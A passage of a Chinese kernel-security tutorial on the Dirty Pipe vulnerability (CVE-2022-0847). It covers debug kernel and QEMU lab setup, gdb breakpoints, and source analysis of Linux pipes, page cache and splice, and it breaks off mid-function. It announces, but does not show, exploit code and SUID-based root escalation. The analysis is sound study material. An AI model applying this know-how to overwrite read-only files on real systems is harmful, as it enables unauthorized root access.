# 劫持SUID程序提权彻底理解Dirty_Pipe：从源码解析到内核调试-先知社区

> **来源**: https://xz.aliyun.com/news/17706  
> **文章ID**: 17706

---

# DirtyPipe（CVE-2022-0847）漏洞内核调试全流程指南

本文主要面向对内核漏洞挖掘与调试没有经验的初学者，结合 CVE-2022-0847——著名的 Dirty Pipe 漏洞，带你从零开始学习 Linux 内核调试、漏洞复现、原理分析与漏洞利用。该漏洞危害极大，并且概念简单明了，无需复杂前置知识即可理解和复现。

文章涵盖以下主要内容：

* **环境搭建与调试准备**：介绍如何编译带调试信息的内核、搭建模拟漏洞的实验环境，以及如何利用 QEMU 和 gdb 进行内核动态调试。
* **内核源码阅读与调试技巧**：详细解析 Linux 系统调用、文件操作与管道机制，讲解如何借助源码阅读和调试技巧来深刻理解内核的工作原理及漏洞成因。
* **从底层彻底理解dirty\_pipe漏洞的利用原理**：从管道的页缓存机制、零拷贝技术和相关内核数据结构出发，揭示 Dirty Pipe 漏洞的根本原因以及为何这一漏洞能够实现任意写覆盖。
* **Dirty\_pipe漏洞复现与内核动态调试分析**：提供一个完整的漏洞复现流程及示例代码，展示如何利用 pipe 与 page cache 的交互缺陷实现对只读文件的越权覆盖，并通过内核调试验证漏洞利用过程。
* **解决和解释Dirty\_Pipe在复现过程中的疑问**：总结漏洞利用过程中常见的问题与疑问，并给出详细的解释和调试技巧，帮助读者理解每一步骤的关键原理与细节。
* **通过Dirty\_pipe劫持劫持SUID二进制文件进行提权**：最后讲解如何单独依靠这漏洞进行root提权！

# 一、调试编译模拟漏洞环境搭建

环境搭建的调试脚本已经上传github：[Brinmon/KernelStu](https://github.com/Brinmon/KernelStu)

## 1. 内核准备

源码下载路径：[Index of /pub/linux/kernel/v5.x/](https://cdn.kernel.org/pub/linux/kernel/v5.x/)  
编译教程：[kernel pwn从小白到大神(一)-先知社区](https://xz.aliyun.com/news/15130?time__1311=eqUxuDgGGQ%3D40DBTFDn7FDkYOWzQWP%3DYD&u_atoken=bed99613d7a9039e203ac47c7095a8cb&u_asig=1a0c380917432676972611988e0110)

```
wget https://cdn.kernel.org/pub/linux/kernel/v5.x/linux-5.8.1.tar.gz
tar -xvf linux-5.8.1.tar.gz
cd linux-5.8.1/
sudo apt-get update
sudo apt-get install git fakeroot build-essential ncurses-dev xz-utils qemu flex libncurses5-dev libssl-dev bc bison libglib2.0-dev libfdt-dev libpixman-1-dev zlib1g-dev libelf-dev dwarves zstd
#make menuconfig  命令需要依赖库,下面的
sudo apt-get install libncurses5-dev libncursesw5-dev
make menuconfig #图形化配置配置文件

cp .config .config.bak
#避免make 的时候报错,直接将.config内的CONFIG_SYSTEM_TRUSTED_KEYS字段置空不然会报错
sed -i 's/^\(CONFIG_SYSTEM_TRUSTED_KEYS=\).*/\1""/' .config
#还需要给Makefile添加 -0O选项避免编译优化
#最后多核编译就可以了
make -j$(nproc) bzImage
```

检查勾选配置：

* Kernel hacking —> Kernel debugging
* Kernel hacking —> Compile-time checks and compiler options —> Compile the kernel with debug info
* Kernel hacking —> Generic Kernel Debugging Instruments –> KGDB: kernel debugger
* kernel hacking —> Compile the kernel with frame pointers（找不到）

WSL直接编译：  
  
速度嘎嘎快！  


## 2. 文件系统准备

**构建最小根文件系统（基于BusyBox）**

```
wget https://busybox.net/downloads/busybox-1.36.0.tar.bz2  
tar -xvf busybox-1.36.0.tar.bz2  
cd busybox-1.36.0  
make defconfig  
make menuconfig  # 选中 "Build static binary (no shared libs)"  
make -j$(nproc) && make install  
```

**配置磁盘镜像**  
配置rcS文件：

```
#!/bin/sh
mount -t proc none /proc
mount -t sysfs none /sys
mount -t devtmpfs devtmpfs /dev
mount -t tmpfs tmpfs /tmp
mkdir /dev/pts
mount -t devpts devpts /dev/pts

echo -e "
Boot took $(cut -d' ' -f1 /proc/uptime) seconds
"

# 创建文件并设置权限（root可读写，其他用户只读）
echo "This is a secret file!" > /secret.txt
chmod 644 /secret.txt  # 644 = rw-r--r--
chown root:root /secret.txt

setsid cttyhack setuidgid 1000 sh
poweroff -d 0 -f
```

## **3. 工具链准备**

安装Qemu：

```
apt install qemu qemu-utils qemu-kvm virt-manager libvirt-daemon-system libvirt-clients bridge-utils
```

安装pwndbg：

```
nix profile install github:pwndbg/pwndbg --extra-experimental-features nix-command --extra-experimental-features flakes
```

gdb.sh

```
pwndbg -q -ex  "target remote localhost:1234" \
    -ex "add-auto-load-safe-path /home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1" \
    -ex "file /home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/vmlinux" \
    -ex "b /home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/fs/open.c:1184" \ #open打开的文件结构体，查看file \
    -ex "b /home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/fs/pipe.c:882" \ #pipe创建的管道结构体，查看结构体地址 \
    -ex "b /home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/fs/pipe.c:536" \ #pipe_write为管道结构体赋予可以合并标记 \
    -ex "b /home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/mm/filemap.c:1995" \ #splice获取到的文件结构体，查看file \
    -ex "b /home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/mm/filemap.c:2029" \ #generic_file_buffered_read获取只读文件的page \
    -ex "b /home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/lib/iov_iter.c:372" \ #文件结构体的page直接替换了管道结构体的page未重新初始化是否可以续写 \
    -ex "b /home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/fs/pipe.c:463" \ #向管道写入数据，发现可以在管道page续写，但是由于该page实际指向了只读文件的实际page，所以可以实现文件越权写 \
    -ex "c" 
```

start.sh

```
#!/bin/sh
qemu-system-x86_64 \
    -m 128M \
    -kernel ./bzImage \
    -initrd  ./rootfs_new.cpio \
    -monitor /dev/null \
    -append "root=/dev/ram rdinit=/sbin/init console=ttyS0 oops=panic panic=1 quiet nokaslr loglevel=7" \
    -cpu kvm64,+smep \
    -smp cores=2,threads=1 \
    -nographic \
    -s 
```

# 二、Linux内核源码阅读和调试技巧

## Linux系统调用syscall源码实现搜索技巧

**系统调用实现原理**  
Linux 系统调用是用户空间与内核交互的核心接口，其实现依赖于架构相关的中断机制（如 x86 的`int 0x80`或`syscall`指令）和系统调用表（`sys_call_table`）。每个系统调用通过唯一的系统调用号索引，对应内核中的`sys_xxx`函数。例如，`open`系统调用在内核中对应`fs/open.c`中的`sys_open`函数。

**添加系统调用号**

```
arch/x86/entry/syscalls/syscall_64.tbl
```

在linux源码中寻找到这个，手动添加系统调用号！  


```
0	common	read			sys_read
```

第一列是系统调用号，第二列表示该系统调用适用的架构类型（如common表示通用架构），第三列是系统调用的名称（在用户空间使用的名称），第四列是内核中对应的系统调用实现函数名。若要添加新的系统调用号，需按照此格式在文件中新增一行，并确保系统调用号的唯一性。

​

**声明系统调用**  
系统调用的声明通常位于include/linux/syscalls.h文件中。以read系统调用为例，其声明如下：  


```
asmlinkage long sys_read(unsigned int fd, char __user *buf, size_t count);
```

asmlinkage关键字用于指示编译器该函数是从汇编代码调用的，这在系统调用中很常见，因为系统调用的入口点通常由汇编代码处理。函数声明明确了系统调用的返回类型（这里是long）、参数类型及名称。其中，`char __user *`类型表示指向用户空间内存的指针，用于确保内核在访问该指针时进行必要的安全检查，防止内核非法访问用户空间内存。

**定义系统调用**  
系统调用的实现代码位置较为灵活。若不想修改makefile文件的配置，可将系统调用的实现放置在kernel/sys.c文件中。当然，为了更好的代码组织和管理，系统调用号也可分类放置在不同的文件夹中：  
**1. 核心系统调用目录**  
**(1)**`kernel/`：**功能类型**：进程管理、信号处理、定时器等核心功能。  
**(2)**`fs/`：**功能类型**：文件系统操作、文件读写、目录管理等。  
**(3)**`mm/`：**功能类型**：内存管理、映射、堆分配等。  
**(4)**`net/`：**功能类型**：网络通信、套接字操作。  
**(5)**`ipc/` ：**功能类型**：进程间通信（IPC）。

**SYSCALL\_DEFINE 宏解析**,系统调用号实现的具体，`SYSCALL_DEFINE`**宏** 的书写规范与核心规则：

```
// 使用SYSCALL_DEFINEx宏（x=参数个数），x：参数数量（1~6）
// name：系统调用名称（用户态调用的名称，如 read）。
// 参数书写格式:每个参数需明确类型和变量名。用户空间指针必须标记 __user（如 char __user *, buf）
// 参数名称和参数类型要分别作为宏定义的一个参数！
SYSCALL_DEFINEx(name, type1, arg1, type2, arg2, ...)
{
....
}
```

根据这个方法可以找到read系统调用的函数实现：  


```
grep -r "SYSCALL_DEFINE3(read,.*"
```

## 动态调试定位f\_op文件结构体的操作函数源码

 **f\_op 结构体原理**  
`struct file_operations`（简称`f_op`）定义了文件操作的函数指针，如`open`、`read`、`write`等。内核通过`file->f_op`调用这些函数，具体实现由文件系统（如 ext4、NFS）或设备驱动提供。

​

例如，在 ext4 文件系统中，当用户空间执行open操作打开一个文件时，内核会根据该文件对应的file结构体中的f\_op指针，找到并调用 ext4 文件系统中定义的open操作函数。这个函数会处理诸如检查文件权限、打开文件描述符等具体操作。在设备驱动场景下，对于块设备驱动，其f\_op中的read和write函数会负责与硬件设备进行数据交互，将数据从设备读取到内核缓冲区或从内核缓冲区写入设备。

可以查看一下write的源码实现发现调用了，`file->f_op->write_iter`函数但是无法找到其源码实现！  


下面结合源码进行讲解。假设我们要分析ext4文件系统中read操作的f\_op函数实现。首先，在fs/ext4/file.c文件中，可以找到ext4\_file\_operations结构体的定义：

```
#/home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/fs/ext4/file.c

const struct file_operations ext4_file_operations = {
    .llseek		= ext4_llseek,
    .read_iter	= ext4_file_read_iter,
    .write_iter	= ext4_file_write_iter,
    .iopoll		= iomap_dio_iopoll,
    .unlocked_ioctl = ext4_ioctl,
#ifdef CONFIG_COMPAT
    .compat_ioctl	= ext4_compat_ioctl,
#endif
    .mmap		= ext4_file_mmap,
    .mmap_supported_flags = MAP_SYNC,
    .open		= ext4_file_open,
    .release	= ext4_release_file,
    .fsync		= ext4_sync_file,
    .get_unmapped_area = thp_get_unmapped_area,
    .splice_read	= generic_file_splice_read,
    .splice_write	= iter_file_splice_write,
    .fallocate	= ext4_fallocate,
};
```

这里，.read\_iter成员指向了ext4文件系统中read操作的具体实现函数ext4\_file\_read\_iter。当用户空间执行read系统调用时，内核在处理过程中，若涉及到ext4文件系统的文件，就会通过file->f\_op->read\_iter来调用ext4\_file\_read\_iter函数，从而完成read操作的具体功能，如从磁盘读取数据并填充到用户提供的缓冲区中。

​

**GDB动态调试定位f\_op 结构体所使用的函数**  
定位一下：pipe\_buf\_confirm函数  
  
在源码下完断点之后，来到该调用的位置，在使用gdb命令就饿可以定位到buf->ops的具体值，从而在源码中定位函数的具体实现！

```
#/home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/fs/pipe.c
static const struct pipe_buf_operations anon_pipe_buf_ops = {
    .release	= anon_pipe_buf_release,
    .try_steal	= anon_pipe_buf_try_steal,
    .get		= generic_pipe_buf_get,
};
```



## Linux内核源码结合AI进行动态调试分析技巧

编译完成内核之后，可借助 AI 工具为内核源码添加代码注释，但需注意不能改变 Linux 源码的结构。由于动态调试时是直接索引到源码，如果改变源码的代码行数或者增加过多文本数量，都会打乱调试时的源码定位。因此，在使用 AI 添加提示词时，应将注释加在每行代码的后面。

常用的提示词,也可以自己优化:

```
给代码添加中文注释，只在每行代码的后面添加中文注释，如果遇到已有的注释则不修改:
{
}
```



在使用gdb调试源码时，常用的命令如下：

* n ：执行下一行源码，但不进入函数内部（如果当前行有函数调用）。
* ni ：执行下一条汇编指令，同样不进入函数内部（若当前指令涉及函数调用）。
* s ：进入当前行调用的源码函数内部，便于深入调试函数实现。
* si ：进入call调用的函数内部，且以汇编指令级别的方式进行单步调试。

为了让gdb能正确索引到内核源码，需要修改.gdbinit文件添加源码索引。例如：

```
set disassembly-flavor intel 
dir /home/ub20/LibcSource/glibc-2.31/
```

`set disassembly-flavor intel`命令设置gdb的反汇编风格为 Intel 格式，这样在调试时显示的汇编代码更易阅读。

# 三、从底层彻底理解dirty\_pipe漏洞的利用原理

## syscall pipe : Linux 中的管道Pipe是什么?

在 Linux 系统中，pipe是一种进程间通信（IPC，Inter-Process Communication）机制。它允许两个或多个进程通过一个共享的缓冲区来传递数据，实现进程之间的通信。从系统调用的角度来看，通过pipe系统调用可以创建一个管道。

在终端中输入man 2 pipe可以查看其详细手册:  


### 讲解系统调用函数pipe的源码实现

当调用pipe系统调用时，它会在内核中创建一个管道对象，并返回两个文件描述符，一个用于写入（通常称为写端，`fd[1]`），另一个用于读取（通常称为读端，`fd[0]`）。数据从写端写入管道，然后可以从读端读取出来，遵循先进先出（FIFO，First-In-First-Out）的原则。

```
grep -r "SYSCALL_DEFINE1(pipe.*"   #注释SYSCALL_DEFINE后门的数字代表参数的数量，第一个参数为系统调用号的名称！
```



从内核代码角度看，pipe系统调用的定义如下：

```
SYSCALL_DEFINE1(pipe, int __user *, fildes)
{
    return do_pipe2(fildes, 0);
}
```

这里的SYSCALL\_DEFINE1宏定义了一个接受一个参数的系统调用，该参数fildes是一个指向用户空间数组的指针，用于存储返回的文件描述符。实际的管道创建工作由do\_pipe2函数完成：

```
/*
 * sys_pipe() is the normal C calling standard for creating
 * a pipe. It's not the way Unix traditionally does this, though.
 */
static int do_pipe2(int __user *fildes, int flags)
{
    struct file *files[2];
    int fd[2];
    int error;

    error = __do_pipe_flags(fd, files, flags);
    if (!error) {
        if (unlikely(copy_to_user(fildes, fd, sizeof(fd)))) {
            fput(files[0]);
            fput(files[1]);
            put_unused_fd(fd[0]);
            put_unused_fd(fd[1]);
            error = -EFAULT;
        } else {
            fd_install(fd[0], files[0]);
            fd_install(fd[1], files[1]);
        }
    }
    return error;
}
```

do\_pipe2函数首先调用\_\_do\_pipe\_flags来创建管道，并获取两个文件描述符。如果创建成功，它会尝试将这两个文件描述符复制到用户空间的fildes数组中。若复制失败，函数会清理已分配的资源并返回错误。

进一步深入内核实现，`__do_pipe_flags`函数会调用create\_pipe\_files，最终调用到`get_pipe_inode`函数，该函数负责创建管道的核心数据结构：  
可以追踪到系统调用链：`do_pipe2->__do_pipe_flags->create_pipe_files->get_pipe_inode`

```
#/home/ub20/KernelStu/KernelEnvInit/linux-5.8.1/linux-5.8.1/fs/pipe.c
static struct inode * get_pipe_inode(void)
{
    struct inode *inode = new_inode_pseudo(pipe_mnt->mnt_sb);
    struct pipe_inode_info *pipe;
...
    pipe = alloc_pipe_info();//申请一个结构体
    if (!pipe)
        goto fail_iput;

    inode->i_pipe = pipe;
    pipe->files = 2;
    pipe->readers = pipe->writers = 1;
    inode->i_fop = &pipefifo_fops;
...
}
```

get\_pipe\_inode函数主要完成以下几个关键步骤：

1. 创建伪文件系统（pipefs）中的 inode：通过new\_inode\_pseudo函数创建一个属于pipefs文件系统的inode，该inode代表了管道对象在内核中的存储节点。
2. 分配管道核心结构体：调用alloc\_pipe\_info函数分配一个pipe\_inode\_info结构体，该结构体包含了管道的状态信息，如读写计数器、缓冲区指针等。
3. 初始化管道读写计数器：将pipe->readers和pipe->writers初始化为 1，表示管道的读写端都已准备就绪。

### 讲解Linux管道Pipe在内核中的管理机制

在Linux内核中，管道（Pipe）通过`struct pipe_inode_info`和`struct pipe_buffer`两个核心结构体实现进程间通信（IPC）的底层管理。

**1. 环形缓冲区与指针管理**

```
struct pipe_inode_info {
...
    unsigned int head;             // 环形缓冲区写指针
    unsigned int tail;             // 环形缓冲区读指针
    unsigned int max_usage;
    unsigned int ring_size;
...
    struct page *tmp_page;         // 临时页缓存（用于零拷贝优化）
...
    struct pipe_buffer *bufs;      // 管道缓冲区数组（核心！）
...
};
```

在内核实现中，管道缓存空间总长度一般为 65536 字节，以页为单位进行管理，总共 16 页（每页大小为 4096 字节）。这些页面在物理内存中并不连续，而是通过数组进行管理，从而形成一个环形链表。其中，维护着两个关键的指针：

* head：指向最新生产的缓冲区位置，即数据写入的位置。
* tail：指向开始消费的缓冲区位置，即数据读取的位置。
* max\_usage：表示管道中可使用的最大缓冲区槽位数。
* ring\_size：管道缓冲区的总数，通常是 2 的幂次方，默认情况下，Linux 内核中管道的缓冲区数量为 16 个（PIPE\_DEF\_BUFFERS）。
* tmp\_page：用于缓存已释放的页面。
* bufs：是一个循环数组，用于管理管道缓冲区。每个缓冲区的大小为一页（在常见的系统中，一页大小默认是0x1000字节）。

**2. 内存页与缓冲区数组**

```
struct pipe_buffer {
    struct page *page;          // 直接指向物理内存页（漏洞利用目标
    unsigned int offset, len;//页内偏移，有效数据长度
    const struct pipe_buf_operations *ops; // 操作函数表
    unsigned int flags;         // 状态标志
    unsigned long private;      // 私有数据
};
```

管道数据存储在离散的物理内存页中，通过`struct pipe_buffer`数组（`bufs`）管理：

* `bufs`**数组**：数组中的每个元素对应一个内存页（struct page），通过page字段直接指向物理页帧。这样，内核可以直接定位到存储管道数据的物理内存位置。
* **非连续内存管理**：页之间无需连续，内核通过数组索引实现逻辑上的环形链表。这种非连续内存管理方式，充分利用了内存空间，避免了因连续内存分配困难而导致的资源浪费。在进行数据读写时，内核根据head和tail指针在bufs数组中的索引，找到对应的缓冲区进行操作，同时通过环形链表的逻辑，实现数据的循环读写。例如，当head指针到达数组末尾时，下一次写入会回到数组开头，继续填充缓冲区。

管道本质是一个由内核维护的环形缓冲区，通过`head`和`tail`指针实现高效的数据读写：  
可以看一个Pipe缓冲区的实际示意图：  
  
这张图片展示了一个 **pipe** 的基本数据结构，具体是如何通过循环缓冲区（circular buffer）来管理数据传输。

或者参考一下这个结构图:  


* **pipe->**`bufs[0]` **到 pipe->**`bufs[15]`：这是管道的 16 个缓冲区，每个缓冲区对应一个 `pipe_buffer` 结构体。
* **pipe->tail 和 pipe->head**：`pipe->tail` 指向当前读取位置，`pipe->head` 指向当前写入位置。缓冲区中的黄色区域表示当前正在被使用的缓冲区（`inuse`），即当前正在读取或写入的部分。
* **页面管理**：每个 `pipe_buffer` 结构体对应一个 4KB 的页面，图中显示了这些页面的分布情况，并标记了哪些部分是正在被使用的。

### 讲解Linux管道Pipe如何进行数据写入和读取

当我们使用read和write向pipe进行数据写入和读取的时候,read和write会寻找到pipe\_write和pipe\_read进行数据写入和读取!  
根据前面的管道结构体的讲解可知,pipe\_write和pipe\_read进行数据操作的时候实际都是对pipe->buf的内容进行写入和读取!

#### pipe\_write写入流程

数据写入管道的操作由内核中的pipe\_write函数负责。在数据写入过程中，pipe\_write会调用copy\_page\_from\_iter函数来完成从用户空间到内核管道缓冲区的实际数据复制。下面对pipe\_write函数的执行流程进行详细拆解：

```
static ssize_t
pipe_write(struct kiocb *iocb, struct iov_iter *from)
{
    struct file *filp = iocb->ki_filp;  // 获取文件指针
    struct pipe_inode_info *pipe = filp->private_data;  // 获取管道信息
...
    head = pipe->head;                 // 获取当前头指针
...
        if ((buf->flags & PIPE_BUF_FLAG_CAN_MERGE) &&  // 检查缓冲区是否可合并
...
            ret = copy_page_from_iter(buf->page, offset, chars, from);  // 复制数据到缓冲区
...
            struct pipe_buffer *buf = &pipe->bufs[head & mask];  // 获取当前缓冲区
...
            pipe->head = head + 1;  // 移动头指针
            ...
            buf = &pipe->bufs[head & mask];  // 获取新缓冲区
            buf->page = page;    // 设置缓冲区页
            buf->ops = &anon_pipe_buf_ops;  // 设置缓冲区操作
            buf->offset = 0;     // 设置偏移量
            buf->len = 0;        // 初始长度为0
...
            if (is_packetized(filp))  // 如果是数据包模式
                buf->flags = PIPE_BUF_FLAG_PACKET;  // 设置数据包标志
            else
                buf->flags = PIPE_BUF_FLAG_CAN_MERGE;  // 设置可合并标志
            pipe->tmp_page = NULL;  // 清空临时页
...
            copied = copy_page_from_iter(page, 0, PAGE_SIZE, from);  // 复制数据到页
...
    return ret;               // 返回实际写入的字节数
}
```

**写入流程**：数据按页写入`bufs[head]`，更新`head`指针；若缓冲区满，写进程进入睡眠。  
在`pipe_write`函数写入数据过程中，获取管道的写指针head，通过head & mask的运算，在pipe->bufs数组中定位当前用于写入的缓冲区buf。这里的mask是根据管道缓冲区总数计算得出的掩码，用于实现环形缓冲区的循环访问。最后调用copy\_page\_from\_iter函数，将用户空间的数据从from迭代器中复制到内核分配的页面中，完成数据写入操作。

**写入标记**：

```
            if (is_packetized(filp))  // 如果是数据包模式
                buf->flags = PIPE_BUF_FLAG_PACKET;  // 设置数据包标志
            else
                buf->flags = PIPE_BUF_FLAG_CAN_MERGE;  // 设置可合并标志
```

可以发现这里当第一次向管道写入数据的时候会将`pipe->bufs[i]->flags`字段赋值为PIPE\_BUF\_FLAG\_CAN\_MERGE,如果是网络数据通过pipe传输的话就会赋值PIPE\_BUF\_FLAG\_PACKET;

```
        if ((buf->flags & PIPE_BUF_FLAG_CAN_MERGE) &&  // 检查缓冲区是否可合并
...
            ret = copy_page_from_iter(buf->page, offset, chars, from);  // 复制数据到缓冲区
```

如果想继续在管道写入数据会首先检查buf->flags字段和buf->page是否有剩余空间,再次调用pipe\_write可以继续向这个buf->page写入数据!

#### pipe\_read输出流程

数据从管道中读取的操作由内核中的pipe\_read函数负责。在读取过程中，pipe\_read会调用copy\_page\_to\_iter函数来完成从内核管道缓冲区到用户空间的实际数据复制。下面对pipe\_read函数的执行流程进行详细拆解：

```
static ssize_t
pipe_read(struct kiocb *iocb, struct iov_iter *to)
{
    size_t total_len = iov_iter_count(to);  // 获取要读取的总字节数
    struct file *filp = iocb->ki_filp;     // 获取文件指针
    struct pipe_inode_info *pipe = filp->private_data;  // 获取管道信息
...
        unsigned int head = pipe->head;  // 获取管道头指针
        unsigned int tail = pipe->tail;  // 获取管道尾指针
        unsigned int mask = pipe->ring_size - 1;  // 环形缓冲区掩码

        if (!pipe_empty(head, tail)) {  // 如果管道不为空
            struct pipe_buffer *buf = &pipe->bufs[tail & mask];  // 获取当前缓冲区
...

            written = copy_page_to_iter(buf->page, buf->offset, chars, to);  // 复制数据到用户空间
...
            ret += chars;            // 更新已读取字节数
            buf->offset += chars;    // 更新缓冲区偏移
            buf->len -= chars;       // 减少缓冲区剩余数据
...
                tail++;             // 移动尾指针
                pipe->tail = tail;  // 更新管道尾指针
...
    return ret;                    // 返回实际读取的字节数
}
```

**读取流程**：从`bufs[tail]`读取数据，更新`tail`指针；若缓冲区空，读进程阻塞。  
获取管道的读指针tail，通过tail & mask的运算，在pipe->bufs数组中定位当前用于读取的缓冲区buf。再调用copy\_page\_to\_iter函数，将缓冲区buf中的数据从指定偏移量buf->offset开始，复制chars字节到用户空间的目标迭代器to中。最后将缓冲区的偏移量buf->offset向后移动已读取的字节数，减少缓冲区中剩余的有效数据长度buf->len。将读指针tail向后移动一位，并更新管道的读指针pipe->tail。

**读取操作的通俗作用**：可以将管道的内容读取出来,并且每次读取都可以算作清理管道数据!

## Page cahce : Linux内核page cache机制

Linux内核的**Page Cache机制**是操作系统中用于提升磁盘I/O性能的核心组件，它通过将磁盘数据缓存在内存中，减少对慢速磁盘的直接访问。以下是对其工作原理和关键特性的详细解释：

### **什么是Page Cache？**

* **定义**：Page Cache是内核管理的一块内存区域，用于缓存磁盘上的文件数据块（以内存页为单位，通常4KB）。
* **目标**：通过内存缓存加速对磁盘数据的读写操作，利用内存的高速特性弥补磁盘的延迟缺陷。
* **缓存内容**：普通文件、目录、块设备文件等。  
  

### **Page Cache的工作原理**

**读操作**

1. **缓存命中**： 当应用程序读取文件时，内核首先检查数据是否在Page Cache中。若存在（缓存命中），直接返回内存中的数据，**无需访问磁盘**。
2. **缓存未命中**： 若数据不在缓存中，内核从磁盘读取数据，存入Page Cache，再拷贝到用户空间。后续访问同一数据时可直接使用缓存。

**写操作**  
**1. 缓冲写入（Writeback）**：  
当一个文件已经被打开过,那么应用程序的写操作默认修改的是Page Cache中的缓存页，而非直接写入磁盘。  
只在特定情况下,内核通过\*\*延迟写入（Deferred Write）策略，将脏页（被修改的页）异步刷回磁盘（由`pdflush`或`flusher`线程触发）。

**优点**：合并多次小写入，减少磁盘I/O次数。  
**风险**：系统崩溃可能导致数据丢失（需通过`fsync()`或`sync()`强制刷盘）。

**2. 直写（Writethrough）**： 某些场景（如要求强一致性）会同步写入磁盘，但性能较低（较少使用）。



相关资料:

* [Linux内核Page Cache和Buffer Cache关系及演化历史 - CharyGao - 博客园](https://www.cnblogs.com/Chary/p/18112921)
* [深入理解Linux 的Page Cache-page cache](https://www.51cto.com/article/680018.html)
* [一文看懂 | 什么是页缓存（Page Cache）\_pagecache-CSDN博客](https://blog.csdn.net/goTsHgo/article/details/122256991)

## syscall splice : Linux中的零拷贝机制源码讲解

### 1. 零拷贝机制概述

传统的文件拷贝过程（open()→read()→write()）需要在用户态和内核态之间多次切换，并进行 CPU 和 DMA 之间的数据拷贝，开销较大。而利用 splice 系统调用可以实现内核态内的“零拷贝”，只进行少量的上下文切换，从而极大提高数据传输效率。

**传统拷贝：** 4次上下文切换、2次 CPU 拷贝、2次 DMA 拷贝  
最简单的，就是open()两个文件，然后申请一个buffer，然后使用read()/write()来进行拷贝。但这样效率太低，原因是一对read()和write()涉及到4次上下文切换，2次CPU拷贝，2次DMA拷贝。  


**splice 零拷贝：** 只需2次上下文切换  
再dirty\_pipe使用splice进行0拷贝的话就可以实现极高的效率,只需要两次上下文切换即可完成拷贝!  


### 2. splice 系统调用实现流程

为了理解 splice 零拷贝的内部实现，我们可以通过动态调试定位到关键函数 `copy_page_to_iter_pipe`。在该函数设置断点，并使用 gdb 查看调用栈，可以看到整个 splice 的调用链条。调用栈大致分为以下几个层次：  
  
可以很快发现整个splice的调用链！

```
--文件系统层
#0  copy_page_to_iter_pipe
#1  copy_page_to_iter
#2  generic_file_buffered_read
--核心功能层
#3  call_read_iter
#4  generic_file_splice_read
#5  do_splice
--系统调用入口层
#6  __do_sys_splice 实际系统调用实现
#7  __se_sys_splice 处理系统调用参数的安全包装
#8  __x64_sys_splice 这是x86_64架构特定的系统调用入口
#9  do_syscall_64
#10 entry_SYSCALL_64
```

在 `SYSCALL_DEFINE6(splice, ...)` 中，主要完成文件描述符转换、参数合法性检查，并调用 `do_splice` 进行实际的数据处理。

```
SYSCALL_DEFINE6(splice, int, fd_in, loff_t __user *, off_in,
        int, fd_out, loff_t __user *, off_out,
        size_t, len, unsigned int, flags)
{
    struct fd in, out;
...
    if (in.file) {
...
        if (out.file) {
            error = do_splice(in.file, off_in, out.file, off_out,
                      len, flags);
...
}
```

### 2.1 do\_splice 函数

```
/*
 * Determine where to splice to/from.
 */
long do_splice(struct file *in, loff_t __user *off_in,
        struct file *out, loff_t __user *off_out,
        size_t len, unsigned int flags)
{
    struct pipe_inode_info *ipipe;
    struct pipe_inode_info *opipe;
...

    ipipe = get_pipe_info(in, true);  //用来判断和获取目标是否为管道
    opipe = get_pipe_info(out, true);

    if (ipipe && opipe) {  //in和out都是管道
...
    }

    if (ipipe) {//in是管道
....
    }

    if (opipe) {//out是管道
....
        ret = wait_for_space(opipe, flags);// 等待管道有可用空间（如果是阻塞模式可能休眠）
        if (!ret) {// 等待成功（有空间可用）
...
            ret = do_splice_to(in, &offset, opipe, len, flags);
        }
...
        else if (copy_to_user(off_in, &offset, sizeof(loff_t)))
            ret = -EFAULT;
...
}
```

根据输入和输出的文件是否与 pipe 相关，选择不同的处理分支：

* **pipe → pipe：** 直接调用 `splice_pipe_to_pipe` 进行管道间数据传递。
* **pipe → 文件：** 走 `do_splice_from`，处理从 pipe 写入文件的情况。
* **文件 → pipe：** 走 `do_splice_to`，处理从文件读取数据填充到 pipe。

在 dirty\_pipe 漏洞中，重点就在文件 → pipe 的场景，因为利用了 splice 复制过程中对管道内部管理机制的不足，才使得漏洞得以被利用。

### 2.2 do\_splice\_to 函数

该函数验证读取权限，检查长度，之后调用文件操作中实现的 `splice_read`。如果文件操作没有自定义该接口，则使用 `default_file_splice_read`。

```
/*
 * Attempt to initiate a splice from a file to a pipe.尝试从文件向管道发起 splice 操作
 */
static long do_splice_to(struct file *in, loff_t *ppos,
             struct pipe_inode_info *pipe, size_t len,
             unsigned int flags)
{
    int ret;

    if (unlikely(!(in->f_mode & FMODE_READ))) // 如果输入文件不可读，则返回错误
        return -EBADF;

    ret = rw_verify_area(READ, in, ppos, len); // 验证读取权限和边界
    if (unlikely(ret < 0)) // 如果验证失败，则返回错误码
        return ret;

    if (unlikely(len > MAX_RW_COUNT)) // 限制读取长度，防止超过最大允许值
        len = MAX_RW_COUNT;

    if (in->f_op->splice_read) // 如果文件支持 splice_read 操作，则调用
        return in->f_op->splice_read(in, ppos, pipe, len, flags);
    return default_file_splice_read(in, ppos, pipe, len, flags); // 否则使用默认的 splice 读取实现
}
```

这里的关键是`in->f_op->splice_read`,此处调用的 `generic_file_splice_read`来从文件中读取页面，并填充到管道中。

也可以通过动态调试来定位`in->f_op->splice_read`调用的是什么函数:

```
p *((struct file *) in->f_op->splice_read)
```

如何通过动态调试定位源码：  




```
pwndbg> p in->f_op->splice_read
$1 = (ssize_t (*)(struct file *, loff_t *, struct pipe_inode_info *, size_t,
    unsigned int)) 0xffffffff8120fd20 <generic_file_splice_read>
pwndbg> p in->f_op
$2 = (const struct file_operations *) 0xffffffff82027600 <ramfs_file_operations>
```



### 2.3 generic\_file\_splice\_read 函数

```
/**
 * generic_file_splice_read - 从文件向管道拼接数据
 * @in:		源文件
 * @ppos:	文件中的位置指针
 * @pipe:	目标管道
 * @len:	要拼接的字节数
 * @flags:	拼接标志位
 *
 * 描述:
 *    从给定文件读取页面并填充到管道。只要文件有基本可用的->read_iter()方法即可使用。
 */
ssize_t generic_file_splice_read(struct file *in, loff_t *ppos,
